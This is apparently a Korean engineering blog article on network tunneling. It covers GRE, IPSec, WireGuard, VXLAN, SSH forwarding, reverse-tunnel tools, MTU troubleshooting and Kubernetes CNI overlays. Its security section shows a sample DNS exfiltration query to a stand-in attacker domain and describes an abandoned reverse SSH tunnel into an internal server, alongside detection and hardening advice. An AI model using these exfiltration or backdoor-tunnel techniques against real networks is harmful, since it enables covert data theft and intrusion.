

# 터널링 - 캡슐화 기반 가상 경로의 원리와 실무

회사에서 처음 VPN을 직접 구축해야 했을 때, 단순히 "암호화된 통신"이라고만 알고 있던 게 얼마나 빈약한 지식이었는지 깨달았다. 터널링은 암호화와 별개의 개념이고, 암호화 없는 터널도 흔하다. GRE는 평문이고, IP-in-IP도 평문이다. K8s 클러스터 안에서 Pod끼리 통신할 때 매일 VXLAN 캡슐화가 일어나는데 그게 터널인 줄 모르고 쓰는 사람도 많다.

이 문서는 그 동안 트러블슈팅하면서 배운 것들 — MTU 때문에 SSL 핸드셰이크만 깨지던 사례, 방치된 SSH 터널로 사내망에 외부에서 들어오던 사례, IPSec과 WireGuard 중에 뭐 쓸지 정할 때 따져본 것들을 정리한 것이다.

## 터널링이란 무엇인가

터널링의 본질은 한 줄로 정리된다. **어떤 프로토콜의 패킷을 다른 프로토콜의 페이로드로 감싸서 전송하는 기법**이다. 캡슐화(encapsulation)라는 단어가 핵심이다.

원래 IP 패킷이 라우팅되는 방식은 이렇다.

```
[IP Header | TCP Header | Data]
```

터널링이 적용되면 이렇게 된다.

```
[Outer IP Header | Tunnel Header | IP Header | TCP Header | Data]
```

바깥쪽 IP 헤더(Outer)는 터널 양 끝점(터널 엔드포인트)의 주소를 갖고, 안쪽 IP 헤더(Inner)는 원래 통신하려던 호스트의 주소를 갖는다. 중간 라우터 입장에서는 그냥 평범한 IP 패킷처럼 보인다. 터널 엔드포인트만이 안쪽을 풀어볼 수 있다.

이 단순한 아이디어가 왜 그렇게 다양한 곳에 쓰이느냐. 결국 터널링이 해결하는 문제가 세 가지로 압축되기 때문이다.

### 터널링이 푸는 세 가지 문제

**1. NAT/방화벽 우회**

회사에서 사설 IP를 쓰는 두 지사를 연결해야 한다고 해보자. 192.168.10.0/24 지사와 192.168.20.0/24 지사가 있는데, 둘 다 사설 대역이라 인터넷에서 직접 라우팅이 안 된다. 두 지사 게이트웨이 사이에 GRE나 IPSec 터널을 뚫으면, 안쪽 패킷은 사설 IP 그대로 가지만 바깥쪽 IP는 공인 IP로 감싸져 인터넷을 건너간다.

**2. 사설망 연결**

원격 직원의 노트북이 사내 DB에 붙어야 하는데, DB는 사설망에 있고 노트북은 카페 와이파이 뒤에 있다. VPN 터널을 만들면 노트북에 사설 IP가 하나 할당되고, 그 IP로 사내 리소스에 접근 가능해진다. WireGuard, OpenVPN이 이 용도다.

**3. 암호화 채널**

기업 간 전용선 대신 인터넷을 쓰면서 보안을 유지하려면 IPSec 같은 암호화 터널을 쓴다. 이 경우 터널링 + 암호화가 결합된다. 다만 모든 터널이 암호화되는 건 아니다. GRE, IP-in-IP, VXLAN은 평문이다.

### 캡슐화 오버헤드

터널링은 공짜가 아니다. 헤더가 추가되는 만큼 페이로드가 줄어든다. 일반 이더넷 MTU가 1500인데, GRE는 24바이트(IP 20 + GRE 4), IPSec ESP는 모드와 알고리즘에 따라 50~70바이트, VXLAN은 50바이트(이더넷 14 + IP 20 + UDP 8 + VXLAN 8)를 먹는다. 이게 나중에 다룰 MTU 트러블슈팅의 원인이다.

## OSI 계층별 터널링 분류

터널링을 처음 배울 때 가장 헷갈렸던 게 "이 프로토콜은 몇 계층이냐"는 분류다. 사실 이 분류는 두 가지 관점이 섞여 있다. **터널이 무엇을 캡슐화하느냐(inner protocol)** 와 **터널이 무엇 위에서 동작하느냐(outer protocol)** 가 다르다.



### L2 터널링

원래 한 LAN에서만 의미 있는 이더넷 프레임을 IP 위로 실어 나르는 방식이다. 대표적으로 VXLAN, GENEVE, NVGRE, L2TP가 여기 속한다. 데이터센터에서 가상머신을 다른 물리 호스트로 옮겨도 같은 서브넷에 있는 것처럼 통신하게 만들 때 쓴다. K8s에서 Pod끼리 같은 서브넷처럼 보이는 것도 결국 L2 오버레이다.

### L3 터널링

IP 패킷을 IP로 감싸는 방식. IP-in-IP, GRE, IPSec(Tunnel mode), WireGuard가 여기 속한다. 전통적인 사이트 간 VPN, 라우터 간 터널이 대부분 이 계층이다.

### L4 터널링

TCP/UDP 위에서 동작하는 터널이다. SSH 포트포워딩이 가장 대표적이다. OpenVPN도 TCP/UDP 위에서 도는 사용자 공간 터널이다. 커널 모듈 없이 사용자 권한으로 만들 수 있다는 게 장점이다.

### L7 터널링

HTTP CONNECT 메서드, WebSocket 위 터널, DNS 위 터널 같은 것들이다. 방화벽이 80/443/53만 열어둔 환경에서 다른 트래픽을 흘려보낼 때 쓴다. ngrok이나 Cloudflare Tunnel이 사용하는 방식이 여기에 가깝다. 보안 관점에서는 데이터 유출(exfiltration) 통로로 자주 악용된다.

## L3 터널링 프로토콜

### IP-in-IP (RFC 2003)

가장 단순한 터널이다. IP 헤더 안에 IP 헤더가 또 들어간다. 캡슐화 외에 아무것도 안 한다. 암호화도, 인증도 없다.

```
[Outer IP (proto=4) | Inner IP | Inner Payload]
```

Outer IP의 protocol 필드가 4면 IP-in-IP를 뜻한다. 헤더 오버헤드는 20바이트로 가장 작다. 단순한 만큼 멀티캐스트나 브로드캐스트는 못 나르고, IPv4-in-IPv4만 가능하다(IPv4-in-IPv6는 따로 RFC가 있다).

리눅스에서 IP-in-IP 터널 만드는 명령은 이렇다.

```bash
# 양 끝점 A: 공인 IP 1.1.1.1, 사설 10.0.1.0/24
ip tunnel add tun0 mode ipip remote 2.2.2.2 local 1.1.1.1
ip link set tun0 up
ip addr add 10.99.0.1/30 dev tun0
ip route add 10.0.2.0/24 dev tun0

# 양 끝점 B: 공인 IP 2.2.2.2, 사설 10.0.2.0/24
ip tunnel add tun0 mode ipip remote 1.1.1.1 local 2.2.2.2
ip link set tun0 up
ip addr add 10.99.0.2/30 dev tun0
ip route add 10.0.1.0/24 dev tun0
```

K8s의 Calico CNI가 cross-subnet 모드에서 IP-in-IP를 쓴다. Pod 트래픽이 다른 노드로 갈 때 노드 IP로 한 번 감싸서 보낸다.

### GRE (RFC 2784)

Generic Routing Encapsulation. 이름처럼 IP 외에 다양한 프로토콜을 캡슐화할 수 있게 만든 터널이다. IPv4, IPv6, IPX, AppleTalk, MPLS까지 다 들어간다. Cisco가 처음 만든 뒤 RFC가 됐고, 라우터 사이의 사이트 간 연결에 가장 많이 쓰이는 평문 터널이다.

```
[Outer IP (proto=47) | GRE Header | Inner Packet]
```

GRE 헤더는 기본 4바이트지만, 옵션(checksum, key, sequence) 있으면 더 늘어난다. Outer IP의 protocol 47이 GRE다.

```bash
# A 측
ip tunnel add gre1 mode gre remote 2.2.2.2 local 1.1.1.1 ttl 64
ip link set gre1 up
ip addr add 10.99.0.1/30 dev gre1
ip route add 10.0.2.0/24 dev gre1

# B 측
ip tunnel add gre1 mode gre remote 1.1.1.1 local 2.2.2.2 ttl 64
ip link set gre1 up
ip addr add 10.99.0.2/30 dev gre1
ip route add 10.0.1.0/24 dev gre1
```

GRE는 멀티캐스트를 지원하기 때문에 OSPF, EIGRP 같은 동적 라우팅 프로토콜을 터널 너머로 돌릴 수 있다. IP-in-IP는 그게 안 된다. 다만 둘 다 평문이라 단독으로 쓰면 위험하고, GRE over IPSec 형태로 GRE를 IPSec으로 한 번 더 감싸는 패턴이 흔하다.

### IPSec

진짜 본격적인 보안 터널이 IPSec이다. RFC 4301~4309에 흩어져 정의돼 있고, AH(Authentication Header)와 ESP(Encapsulating Security Payload)라는 두 가지 헤더, Transport와 Tunnel이라는 두 가지 모드를 갖는다.

#### AH vs ESP

AH는 인증과 무결성만 제공하고 암호화는 안 한다. ESP는 인증, 무결성, 암호화 다 한다. 현실에서 AH 단독으로 쓰는 경우는 거의 없다. ESP가 사실상 표준이다. AH는 NAT를 통과 못 하는 결정적 약점이 있다(NAT가 IP 헤더를 바꾸면 인증이 깨진다). ESP는 NAT-T(NAT Traversal)로 우회 가능하다.

#### Transport vs Tunnel mode

Transport 모드는 IP 헤더를 그대로 두고 페이로드만 암호화한다. 호스트 간 통신에 쓴다.

```
[원본 IP | ESP | TCP/UDP | Data | ESP Trailer]
```

Tunnel 모드는 원본 IP까지 통째로 암호화하고 새 IP 헤더를 씌운다. 게이트웨이 간 사이트 VPN에 쓴다.

```
[New IP | ESP | 원본 IP | TCP/UDP | Data | ESP Trailer]
```

회사에서 본사-지사 VPN을 만들면 거의 ESP + Tunnel mode 조합이다.

#### strongSwan 설정 예시

리눅스에서 IPSec을 가장 많이 쓰는 구현이 strongSwan이다. `/etc/swanctl/conf.d/site.conf` 예시:

```
connections {
    site-to-site {
        version = 2
        local_addrs = 1.1.1.1
        remote_addrs = 2.2.2.2
        proposals = aes256gcm16-prfsha384-ecp384

        local {
            auth = psk
            id = office-a
        }
        remote {
            auth = psk
            id = office-b
        }
        children {
            net-net {
                local_ts = 10.0.1.0/24
                remote_ts = 10.0.2.0/24
                esp_proposals = aes256gcm16-ecp384
                mode = tunnel
                start_action = trap
                dpd_action = restart
            }
        }
    }
}

secrets {
    ike-psk {
        id-1 = office-a
        id-2 = office-b
        secret = "충분히-긴-사전공유키-32바이트이상"
    }
}
```

IKEv2(Internet Key Exchange v2)는 키 협상 프로토콜이고, 위에서 만든 SA(Security Association) 위로 ESP 패킷이 흐른다. PSK(사전 공유 키) 대신 인증서를 쓰면 더 안전하다.

#### IPSec의 운영상 문제

IPSec은 표준이 너무 많고 옵션이 너무 많다. 양쪽 벤더가 다르면 ike-version, dh-group, 암호 알고리즘, lifetime, perfect forward secrecy 같은 협상 파라미터를 한참 맞춰야 한다. Cisco-Juniper 사이 트러블슈팅을 한 번 해보면 왜 다들 WireGuard로 갈아타려 하는지 알게 된다.

### WireGuard

2020년에 리눅스 커널 메인라인에 들어간 비교적 새로운 VPN이다. UDP 위에서 동작하는 L3 터널이고, 암호 알고리즘이 ChaCha20-Poly1305, Curve25519 등으로 고정돼 있다. 협상이 없다. 짧다. 코드가 IPSec의 1/100 수준이다.

`/etc/wireguard/wg0.conf` 예시:

```ini
[Interface]
PrivateKey = MFp...개인키...A=
Address = 10.99.0.1/24
ListenPort = 51820
PostUp = iptables -A FORWARD -i %i -j ACCEPT; iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
PostDown = iptables -D FORWARD -i %i -j ACCEPT; iptables -t nat -D POSTROUTING -o eth0 -j MASQUERADE

[Peer]
PublicKey = aBc...피어공개키...X=
AllowedIPs = 10.99.0.2/32, 10.0.2.0/24
Endpoint = 2.2.2.2:51820
PersistentKeepalive = 25
```

`AllowedIPs`가 라우팅 테이블 역할을 동시에 한다. 이 피어로 들어오는/나가는 패킷의 source/destination이 여기 있는 대역 안이어야 한다. 이걸 cryptokey routing이라고 부른다.

WireGuard는 협상이 없는 대신 키 교환과 핸드셰이크가 단순하고, 클라이언트가 비활성 상태면 거의 트래픽을 안 만든다. 모바일 환경에서 유리하다.

### IPSec vs WireGuard

실제 선택할 때 기준은 이렇다.

| 항목 | IPSec | WireGuard |
| --- | --- | --- |
| 표준화 | RFC, 모든 벤더 지원 | RFC 없음(드래프트), 벤더 의존적 |
| 설정 복잡도 | 매우 복잡, 옵션 많음 | 단순, 옵션 거의 없음 |
| 성능 | 커널 구현이지만 협상 비용 큼 | 커널 구현, 처리량 더 좋다는 벤치마크 다수 |
| 알고리즘 | 협상 가능 | 고정(약점 발견 시 프로토콜 자체 교체 필요) |
| NAT 통과 | NAT-T 별도 필요 | 기본적으로 잘 됨 |
| 모바일 로밍 | IP 바뀌면 재협상 | endpoint만 바뀌어도 자동 적응 |
| 동적 라우팅 | 기업 장비와 BGP 연동 가능 | 별도 도구 필요 |

기업 본사-지사처럼 양쪽이 시스코·주니퍼 장비고 동적 라우팅을 돌려야 하면 IPSec이 사실상 강제된다. 클라우드 인스턴스 간, 또는 개발자 노트북-서버 같은 단순 연결이면 WireGuard가 압도적으로 편하다.

### L2TP, L2TPoIP

Layer 2 Tunneling Protocol. 이름은 L2지만 실제로는 PPP 프레임을 IP 위로 나르는 형태에 가깝다. 단독으로는 암호화가 없어서 항상 IPSec과 함께 쓰인다. 이걸 L2TP/IPSec이라고 부른다. 윈도우 내장 VPN 클라이언트가 오랫동안 이걸 지원했다. 요즘은 거의 레거시 취급이다.

L2TPoIP(L2TP over IP, RFC 3931에서 L2TPv3)는 ISP가 고객 사이트 간 이더넷 프레임을 광역 백본으로 나를 때 쓴다. MPLS L2VPN 대안 중 하나다.

### PPTP

Point-to-Point Tunneling Protocol. 마이크로소프트가 만든 오래된 VPN. **이미 사실상 깨진 프로토콜**이다. MS-CHAPv2의 약점이 공개됐고, 24시간 안에 키가 복구된다. 새 시스템에 PPTP를 쓰는 일은 없어야 한다. 레거시 환경에서 마주치면 마이그레이션 대상이다.

### OpenVPN

TCP 또는 UDP 위에서 도는 사용자 공간 VPN. 커널 모듈이 필요 없고, OpenSSL/mbedTLS 라이브러리로 암호화를 처리한다. 설정이 유연하고 어디서나 잘 돌아간다는 게 장점인데, 그만큼 성능은 커널 기반(IPSec, WireGuard)보다 떨어진다. 5~6년 전까지 가장 많이 쓰던 오픈소스 VPN이고, 지금은 WireGuard로 옮겨가는 추세다.

OpenVPN을 TCP 위에서 돌리면 TCP-over-TCP 문제가 생긴다. 안쪽 TCP가 재전송하려는데 바깥쪽 TCP도 재전송하면서 혼잡이 폭증한다. 가능하면 UDP 모드로 써야 한다.

### SSTP

Secure Socket Tunneling Protocol. 마이크로소프트가 만든 SSL/TLS 위 VPN. 443 포트로 도는 게 핵심 특징이라 거의 모든 방화벽을 통과한다. 윈도우 환경에서 외부 직원을 사내망에 연결할 때 가끔 쓴다. 표준이 마이크로소프트 종속적이라 리눅스 클라이언트는 sstp-client 같은 별도 구현을 써야 한다.

## 오버레이 네트워크 터널

데이터센터와 클라우드에서 가상 네트워크를 만드는 데 쓰는 터널들이다. K8s를 한 번이라도 만져봤으면 이 그룹 중 하나는 매일 쓰고 있다.

### VXLAN (RFC 7348)

Virtual eXtensible LAN. **이더넷 프레임을 UDP/IP로 감싸는 L2 오버레이**다. 헤더 구조는 이렇다.

```
[Outer Eth | Outer IP | Outer UDP | VXLAN Header (8B) | Inner Eth | Inner IP | ...]
```

VXLAN 헤더에 24비트 VNI(VXLAN Network Identifier)가 있어 1600만 개의 가상 네트워크를 구분할 수 있다. VLAN의 4096 한계를 넘어선다.

VXLAN의 캡슐화 오버헤드는 50바이트(이더넷 14 + IP 20 + UDP 8 + VXLAN 8)다. 이 50바이트가 K8s 운영자를 자주 괴롭힌다.

K8s의 Flannel CNI 기본 백엔드가 VXLAN이다. Calico도 IP-in-IP 대신 VXLAN을 쓸 수 있다. Pod에서 나간 패킷이 노드의 vxlan 인터페이스로 들어가면, 노드는 목적지 Pod이 어느 노드에 있는지 본 다음 그 노드 IP로 outer header를 만들어 캡슐화한다.

리눅스에서 VXLAN 인터페이스 만드는 예시:

```bash
ip link add vxlan0 type vxlan id 100 dstport 4789 \
    local 10.0.0.1 remote 10.0.0.2 dev eth0
ip link set vxlan0 up
ip addr add 192.168.100.1/24 dev vxlan0
```

UDP 4789가 IANA가 할당한 VXLAN 표준 포트다.

### GENEVE (RFC 8926)

Generic Network Virtualization Encapsulation. VXLAN의 후계자라고 봐도 된다. **확장 가능한 옵션 헤더**가 있어서 메타데이터를 더 실어 보낼 수 있다. Open vSwitch, OVN, Cilium 등이 점점 GENEVE로 옮겨가는 중이다.

VXLAN과 와이어 포맷이 비슷하지만, 옵션 TLV(Type-Length-Value)가 들어가서 헤더 길이가 가변적이다. 미래 확장에 유리하다.

### NVGRE (RFC 7637)

Network Virtualization using GRE. 마이크로소프트가 주도한 오버레이로, GRE 헤더에 24비트 VSID(Virtual Subnet ID)를 넣는 방식이다. Hyper-V 환경에서 쓰였지만 사실상 VXLAN/GENEVE에 밀렸다. 새 프로젝트에서 선택할 일은 거의 없다.

## SSH 포트포워딩

서버 작업하는 백엔드라면 평생 가장 많이 쓰는 터널이 SSH 포트포워딩이다. 회사 내부 DB에 로컬에서 붙고 싶을 때, 사무실 데스크톱을 외부에서 쓰고 싶을 때, 임시로 SOCKS 프록시 만들 때 다 SSH 한 줄이면 된다.

### -L: 로컬 포워딩

로컬 포트로 들어온 트래픽을 원격 서버를 거쳐 다른 호스트로 보낸다. 가장 흔한 패턴이 "베스천 호스트를 거쳐 사내 DB에 붙기"다.

```bash
# 로컬 5432 → 베스천(bastion.example.com) → 사내 DB(10.0.5.20:5432)
ssh -L 5432:10.0.5.20:5432 user@bastion.example.com
```

이제 `psql -h localhost -p 5432`로 사내 DB에 붙는다. SSH 세션이 살아있는 동안만 유효하다.

### -R: 원격 포워딩

반대 방향. 원격 서버의 포트를 로컬 호스트의 서비스로 끌고 온다. 외부에서 내 노트북의 개발 서버를 봐야 할 때 쓴다.

```bash
# 원격 서버(public.example.com)의 8080 → 내 노트북의 3000
ssh -R 8080:localhost:3000 user@public.example.com
```

원격 서버의 sshd 설정에서 `GatewayPorts yes`가 켜져 있어야 외부 인터페이스에 바인딩된다. 기본은 localhost에만 묶인다.

이게 보안상 위험한 이유가 명확해진다. 누군가 "임시로" 사내 서버에서 외부 VPS로 `-R`을 걸어두면, **외부 VPS가 사내 서비스의 진입점이 된다**. 방치하면 침투 경로가 된다.

### -D: 동적 포워딩 (SOCKS 프록시)

`-L`은 한 번에 한 목적지만 지정되는데, `-D`는 SOCKS5 프록시를 띄워서 어떤 목적지든 라우팅한다.

```bash
# 로컬 1080에 SOCKS5 프록시 띄움
ssh -D 1080 user@bastion.example.com
```

브라우저나 curl을 SOCKS5 프록시로 설정하면 모든 트래픽이 베스천을 거쳐 나간다.

```bash
curl --socks5 localhost:1080 http://internal.example.com/health
```

내가 가장 많이 쓰는 패턴은 이거다. 사내망 어드민 도구 여러 개 들어가야 할 때 매번 `-L` 잡지 않고 `-D` 하나로 끝낸다.

### 자주 쓰는 옵션

```bash
# 백그라운드로, 쉘 안 띄우고, 원격 명령 실행 안 함
ssh -fN -L 5432:db.internal:5432 user@bastion

# 자동 재연결 (autossh 사용)
autossh -M 0 -N -L 5432:db.internal:5432 \
    -o "ServerAliveInterval=30" -o "ServerAliveCountMax=3" \
    user@bastion
```

장시간 도는 터널은 autossh와 systemd 유닛으로 묶어두는 게 정석이다. 단순 ssh는 네트워크 끊기면 그냥 죽는다.

## 리버스 터널 도구

NAT 안에 있는 서비스를 외부로 노출해야 하는 일이 흔하다. 개발 중인 웹훅 콜백을 받아야 하거나, 데모를 외부에 보여줘야 할 때다. 직접 SSH `-R`을 잡을 수도 있지만, 더 다듬어진 도구들이 있다.

### ngrok

가장 유명한 리버스 터널 SaaS. 클라이언트가 ngrok 서버로 아웃바운드 TCP 연결을 만들고, 그 위로 HTTP/TCP 트래픽을 다중화해 받는다. NAT/방화벽 안에서 외부 접근 가능한 URL을 한 줄로 만든다.

```bash
ngrok http 3000
# https://random-id.ngrok-free.app → localhost:3000
```

내부 동작은 SSH `-R`과 비슷하지만, HTTPS 종단, 도메인 발급, 인증, 트래픽 검사 같은 부가 기능이 붙어 있다. 무료 플랜은 매번 도메인이 바뀌어서 운영 환경엔 못 쓴다.

### Cloudflare Tunnel (cloudflared)

Cloudflare가 제공하는 리버스 터널. 클라이언트(`cloudflared`)가 Cloudflare 엣지로 아웃바운드 QUIC/HTTP2 연결을 만든다. 노출하려는 서버에 인바운드 포트가 하나도 안 열려도 되는 게 핵심이다. 운영 환경에 ngrok 대신 쓸 수 있는 무료 옵션.

```yaml
# ~/.cloudflared/config.yml
tunnel: 7c8f...
credentials-file: /etc/cloudflared/7c8f.json
ingress:
  - hostname: api.example.com
    service: http://localhost:3000
  - hostname: ssh.example.com
    service: ssh://localhost:22
  - service: http_status:404
```

Zero Trust 정책과 묶어서 회사 내부 도구를 SSO 뒤로 노출할 수 있다. SaaS이긴 하지만 인프라 진입점을 줄이는 효과는 분명하다.

### frp

오픈소스 리버스 프록시. 직접 띄울 VPS와 함께 쓴다. SaaS 의존이 싫고 자체 호스팅하고 싶을 때 선택한다.

```ini
# frps.ini (서버, public VPS)
[common]
bind_port = 7000
token = some-shared-secret

# frpc.ini (클라이언트, NAT 안 호스트)
[common]
server_addr = vps.example.com
server_port = 7000
token = some-shared-secret

[web]
type = http
local_port = 3000
custom_domains = dev.example.com
```

ngrok 대비 직접 운영 부담이 있는 대신, 트래픽이 외부 SaaS를 거치지 않는다. 사내 데이터를 다루는 경우 이 선택이 맞을 수 있다.

## MTU/MSS와 단편화 트러블슈팅

터널링 운영하면서 가장 자주 만나는 미스터리한 장애가 MTU 관련이다. SSH는 되는데 SCP만 멈춘다든가, 일반 페이지는 열리는데 큰 이미지만 안 열린다든가, SSL 핸드셰이크는 되는데 그 다음이 안 된다든가.

### 무엇이 일어나는가

이더넷 MTU는 1500이다. 그런데 패킷이 GRE 터널에 들어가면 24바이트가 추가돼서, 1500바이트 패킷을 그대로 넣으면 1524가 된다. 라우터가 이걸 보내려면 단편화하거나 ICMP "Fragmentation Needed"를 돌려보내야 한다.

문제는 두 가지다. 첫째, IP 헤더의 DF(Don't Fragment) 비트가 켜져 있으면(요즘 TCP는 거의 다 켜져 있다) 라우터가 단편화를 못 하고 ICMP를 돌려보내는데, 중간 어딘가에서 ICMP가 차단되면 송신자는 끝까지 모른다. 둘째, ICMP가 잘 가도 응답이 늦어 타임아웃이 길게 끼는 경우가 있다.

### MSS clamping

TCP 핸드셰이크의 SYN 패킷에 들어 있는 MSS(Maximum Segment Size) 값을 가로채서 줄이는 기법이다. 터널 인터페이스에서 이걸 설정하면 양 끝의 TCP가 처음부터 작은 세그먼트로 통신해서 단편화 자체가 안 일어난다.

```bash
# GRE 터널 위에서 MSS 1400으로 클램핑
iptables -t mangle -A FORWARD -p tcp --tcp-flags SYN,RST SYN \
    -o gre1 -j TCPMSS --clamp-mss-to-pmtu

# 또는 고정 값으로
iptables -t mangle -A FORWARD -p tcp --tcp-flags SYN,RST SYN \
    -o gre1 -j TCPMSS --set-mss 1400
```

WireGuard, IPSec 운영할 때 이 MSS clamping을 안 해놔서 임의의 큰 패킷만 깨지는 사례를 여러 번 봤다.

### MTU 계산법

각 터널의 페이로드 MTU(=인터페이스 MTU)는 outer MTU에서 헤더를 뺀 값이다.

| 터널 | 헤더 크기 | 권장 인터페이스 MTU (1500 기반) |
| --- | --- | --- |
| IP-in-IP | 20 | 1480 |
| GRE | 24 | 1476 |
| GRE + IPSec | ~75 | 1400~1420 |
| IPSec ESP (Tunnel, AES-GCM) | ~50~60 | 1438~1450 |
| WireGuard | 60 | 1420 (기본값) |
| VXLAN | 50 | 1450 |
| GENEVE | 50~ | 1450 또는 더 작게 |

WireGuard는 기본 MTU 1420으로 설정된다. VXLAN은 보통 1450을 쓴다. 실측해서 PMTU(Path MTU Discovery)가 잘 도는지 확인해야 한다.

```bash
# DF 비트 켠 채로 큰 패킷 보내서 MTU 측정
ping -M do -s 1472 8.8.8.8     # 1472 + 28 ICMP/IP = 1500
ping -M do -s 1452 peer        # 1500 - 28 - 20(GRE의 일부) 같은 식으로 줄여가며 테스트
```

## K8s CNI에서의 터널링

K8s는 모든 Pod가 평평한 IP 공간에서 서로 직접 통신해야 한다는 모델을 갖는다. 이게 노드가 여러 대고 노드 간 서브넷이 다르면 자동으로 만족되지 않는다. CNI 플러그인이 어떻게 해결하느냐에 따라 동작이 달라진다.

### Flannel - VXLAN

Flannel의 기본 백엔드가 VXLAN이다. 각 노드는 자신의 Pod 대역(예: 10.244.1.0/24)을 갖고, 다른 노드의 Pod로 가는 패킷은 vxlan 인터페이스를 거쳐 그 노드의 IP로 캡슐화돼 나간다.

```
Pod A (10.244.1.5) → flannel.1 (vxlan) → eth0(노드1 IP) → 인터넷/사설망
                                    → eth0(노드2 IP) → flannel.1 → Pod B (10.244.2.7)
```

VXLAN UDP 포트 4789가 노드 간에 열려 있어야 한다. 보안 그룹·방화벽에서 이 포트를 빠뜨리면 Pod 간 통신이 안 되는 미스터리한 장애가 난다.

### Calico - IP-in-IP 또는 BGP 또는 VXLAN

Calico는 모드가 여러 개다. 같은 서브넷의 노드끼리는 BGP로 직접 라우팅하고, 서로 다른 서브넷의 노드 사이에서는 IP-in-IP나 VXLAN으로 캡슐화한다. 클라우드 환경(VPC가 IPIP를 차단하는 경우)에서는 VXLAN을 강제로 쓰기도 한다.

```yaml
# Calico IPPool (cross-subnet에서 IPIP 사용)
apiVersion: projectcalico.org/v3
kind: IPPool
metadata:
  name: default-ipv4-ippool
spec:
  cidr: 10.244.0.0/16
  ipipMode: CrossSubnet
  vxlanMode: Never
  natOutgoing: true
```

`ipipMode: Always`면 모든 Pod 트래픽이 IPIP, `CrossSubnet`이면 노드 간 서브넷이 다를 때만, `Never`면 안 쓴다. AWS VPC처럼 IPIP가 안 되는 환경에선 `vxlanMode: Always`로 바꾼다.

### Cilium - VXLAN/GENEVE 또는 native routing

Cilium은 eBPF 기반이고, 캡슐화 모드와 native routing 모드를 모두 지원한다. 기본은 VXLAN, 옵션으로 GENEVE. native routing 모드에서는 클라우드 라우팅 테이블이나 BGP에 의존해서 캡슐화 자체를 안 한다. 캡슐화 오버헤드를 없애고 싶을 때 선택한다.

캡슐화의 50바이트 오버헤드는 작지 않다. 처리량 민감한 워크로드(대용량 데이터 전송, 비디오 스트리밍)에서는 native routing이 더 적합하다.

## 보안 위험과 탐지

터널은 양날의 검이다. 사내망을 보호하기 위해 만들지만, 동시에 침투 경로가 되기도 한다.

### DNS 터널링

DNS 53 포트는 거의 모든 환경에서 열려 있다. 공격자가 이걸 발견한 지 오래됐다. DNS 쿼리 이름과 응답 TXT 레코드에 데이터를 인코딩해서 양방향 채널을 만든다.

```
질의: aGVsbG8gd29ybGQ.exfil.attacker.com  ← base32 인코딩된 데이터
응답: TXT "Y29tbWFuZF9oZXJl"              ← 명령어
```

iodine, dnscat2 같은 툴이 있다. 한 번에 보내는 데이터가 작아서 대역폭은 낮지만, 천천히 데이터를 흘려보내는(slow exfiltration) 데에는 충분하다.

탐지는 이런 신호로 한다. 한 도메인에 대해 비정상적으로 많은 서브도메인 쿼리, 비정상적으로 긴 도메인 이름, 흔치 않은 레코드 타입(TXT, NULL) 비율이 높음, 응답 시간이 느림. 이걸 SIEM이나 Zeek/Suricata에서 룰로 잡는다.

차단은 외부 DNS 사용 자체를 막고 사내 리졸버 강제 사용, DNS over HTTPS/TLS도 화이트리스트만 허용하는 식으로 한다.

### 방치된 SSH 터널

이게 회사에서 실제로 본 가장 위험한 사례다. 한 개발자가 사내 점프 호스트에서 외부 VPS로 `ssh -R 22:internal-server:22` 같은 명령을 날려놓고, 그 SSH 세션을 종료 안 한 채 퇴근. 외부 VPS에 누구든 접속하면 사내 서버에 SSH 들어올 수 있는 상태가 된다. 이런 게 몇 달씩 방치되기도 한다.

탐지는 이렇게 한다. SSH 세션의 외부 향하는 아웃바운드 연결을 모니터링, 특히 `-R` 같은 원격 포워딩이 활성화돼 있는지 `ss -tnpa` 같은 걸로 주기적으로 확인. sshd 설정에서 `AllowTcpForwarding`을 `local` 또는 `no`로 제한하면 원천 차단된다.

```
# /etc/ssh/sshd_config
AllowTcpForwarding local
GatewayPorts no
PermitTunnel no
```

내부 서버에서 외부로 나가는 SSH는 아예 방화벽에서 막는 게 더 확실하다.

### IPSec/WireGuard 키 관리

VPN 키가 유출되면 게임 끝이다. 직원 노트북의 WireGuard 설정 파일이 어떻게 관리되는지, 퇴사 시 어떻게 회수/폐기되는지가 핵심이다. 클라이언트별로 별도 키 페어를 발급하고, 퇴사 시 서버 측 `[Peer]` 섹션을 즉시 제거하는 자동화가 필요하다. PSK 한 개를 모두가 공유하는 IPSec은 한 명만 유출돼도 전체가 위험하다.

## 정리

터널링은 단순한 캡슐화 기법이지만, 적용 계층과 결합하는 보조 기능에 따라 완전히 다른 도구가 된다. 평문 터널(IP-in-IP, GRE, VXLAN)은 망 가상화에, 암호화 터널(IPSec, WireGuard)은 보안 채널에, L4/L7 터널(SSH, ngrok, Cloudflare Tunnel)은 NAT 뒤 서비스 노출에 쓴다.

운영하면서 자주 마주치는 함정은 결국 두 가지로 압축된다. **MTU/MSS를 안 맞춰서 큰 패킷만 깨지는 미스터리** 와 **방치된 터널이 보안 구멍이 되는 사례**. 새로운 터널을 만들 때마다 이 두 가지를 점검하면 큰 사고는 피할 수 있다.
